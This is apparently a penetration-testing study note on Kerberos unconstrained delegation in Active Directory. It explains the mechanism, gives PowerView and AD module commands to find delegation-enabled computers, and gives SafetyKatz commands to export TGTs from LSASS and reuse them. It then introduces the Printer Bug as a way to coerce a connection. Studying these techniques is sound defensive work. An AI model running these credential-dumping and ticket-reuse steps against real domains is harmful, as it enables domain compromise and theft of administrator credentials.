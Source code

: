 Constrained Delegation which allows the first hop server (web server
in our example) to request access only to specified services on
specified computers.


![[Pasted image 20250206220141.png]]


### Unconstrained Delegation

- When unconstrained delegation is enabled, the DC places user's TGT
inside TGS (Step 4 in the previous diagram). When presented to the
server with unconstrained delegation, the TGT is extracted from TGS
and stored in LSASS. This way the server can reuse the user's TGT to
access any other resource as the user.

- This could be used to escalate privileges in case we can compromise the
computer with unconstrained delegation and a Domain Admin connects
to that machine.

 - SeEnableDelegation privileges are needed to configure Unconstrained
Delegation.

Discover domain computers which have unconstrained delegation
enabled using PowerView:

```
Get-DomainComputer -UnConstrained
```

Using ActiveDirectory Module:

```
Get-ADComputer -Filter {TrustedForDelegation -eq $True}

Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

We must trick a domain admin or other high privilege user to connect to
a service on us-web.


After the connection, we can export TGTs using the below command:

```
SafetyKatz.exe '"sekurlsa::tickets /export"'
```

The ticket could be reused:

```
SafetyKatz.exe '"kerberos::ptt ticket.kirbi"'
```

#### Unconstrained Delegation with Printer Bug !

How do we trick a high privilege user to connect to a machine with Unconstrained Delegation? The Printer Bug!

A feature of MS-RPRN which allows any domain user (Authenticated User) can force any machine (running the Spooler service) to connect to second a machine of the domain
user's choice.
